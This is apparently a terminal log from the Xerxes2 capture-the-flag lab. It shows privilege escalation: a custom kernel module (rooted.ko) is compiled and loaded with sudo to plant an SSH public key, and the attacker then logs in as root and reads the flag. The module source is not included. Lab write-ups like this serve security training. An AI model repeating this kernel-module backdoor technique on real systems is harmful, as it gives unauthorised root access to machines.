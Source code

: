 ```bash Xerxes2 rooting
korenchkin@xerxes2:~/kern$ vi rooted.c

korenchkin@xerxes2:~/kern$ vi Makefile

korenchkin@xerxes2:~/kern$ make
make -C /lib/modules/3.2.0-4-686-pae/build M=/home/korenchkin/kern modules
make[1]: Entering directory `/usr/src/linux-headers-3.2.0-4-686-pae'
  CC [M]  /home/korenchkin/kern/rooted.o
  Building modules, stage 2.
  MODPOST 1 modules
  CC      /home/korenchkin/kern/rooted.mod.o
  LD [M]  /home/korenchkin/kern/rooted.ko
make[1]: Leaving directory `/usr/src/linux-headers-3.2.0-4-686-pae'

korenchkin@xerxes2:~/kern$ echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC6sCFrz036WAchGk66yROuY+hePiULr49D1E97wuK0mK4Uw0J+4u1ngDVw+h8xwtpxPZkOWcn7s86OkXcEkWzGoduC1Y+YMP0XnQFG4hdeX4yNypaAsLKZss6tTHe5kHzbTdiOUthSmiJHwyl39TXibSBILTnMOLaxzLM17xUCfJviRm2mOAq6uELYPPf8thzqVeBoIsdXfjh8QeLMRHloyjGe1ZeY0m4pqwg9d2azaBAirjBMv0cyk+1w51SNR61EQ6SRtc6BE7ayc6C+MZW4TkP/lwOQLH7CXrEoyL3bDskD6c9563jRSLtiVfzjfkjoyUDiTCWv/ThirZMqSot/" > /tmp/pubkey

korenchkin@xerxes2:~/kern$ sudo insmod rooted.ko

korenchkin@xerxes2:~/kern$ dmesg | tail
[   14.512040] eth0: no IPv6 routers present
[  290.023022] Clocksource tsc unstable (delta = 4686567555 ns)
[  290.025022] Switching to clocksource acpi_pm
[57198.109946] bf[25367]: segfault at 40062000 ip 40062000 sp bfc6282c error 14
[68192.983366] hello: module license 'unspecified' taints kernel.
[68192.983369] Disabling lock debugging due to kernel taint
[68192.983637] Loading hello module...
[74155.086393] Loading rooted module...
[74155.086397] Call Usermodehelper...
[74155.086449] Done usermodehelper...

korenchkin@xerxes2:~/kern$ logout
Connection to 192.168.56.102 closed.

root@kali:~/Desktop/xeres2# ssh root@192.168.56.102 -i delacroix

Welcome to xerxes2.
      XERXES wishes you
       a pleasant stay.
____   ___  ____  ___  __ ____   ___  ____     ____     ____   
`MM(   )P' 6MMMMb `MM 6MM `MM(   )P' 6MMMMb   6MMMMb\  6MMMMb  
 `MM` ,P  6M'  `Mb MM69 "  `MM` ,P  6M'  `Mb MM'    ` MM'  `Mb 
  `MM,P   MM    MM MM'      `MM,P   MM    MM YM.           ,MM 
   `MM.   MMMMMMMM MM        `MM.   MMMMMMMM  YMMMMb      ,MM' 
   d`MM.  MM       MM        d`MM.  MM            `Mb   ,M'    
  d' `MM. YM    d9 MM       d' `MM. YM    d9 L    ,MM ,M'      
_d_  _)MM_ YMMMM9 _MM_    _d_  _)MM_ YMMMM9  MYMMMM9  MMMMMMMM 

root@xerxes2:~# id
uid=0(root) gid=0(root) groups=0(root)

root@xerxes2:~# cat /root/flag.txt 
____   ___  ____  ___  __ ____   ___  ____     ____     ____   
`MM(   )P' 6MMMMb `MM 6MM `MM(   )P' 6MMMMb   6MMMMb\  6MMMMb  
 `MM` ,P  6M'  `Mb MM69 "  `MM` ,P  6M'  `Mb MM'    ` MM'  `Mb 
  `MM,P   MM    MM MM'      `MM,P   MM    MM YM.           ,MM 
   `MM.   MMMMMMMM MM        `MM.   MMMMMMMM  YMMMMb      ,MM' 
   d`MM.  MM       MM        d`MM.  MM            `Mb   ,M'    
  d' `MM. YM    d9 MM       d' `MM. YM    d9 L    ,MM ,M'      
_d_  _)MM_ YMMMM9 _MM_    _d_  _)MM_ YMMMM9  MYMMMM9  MMMMMMMM 
```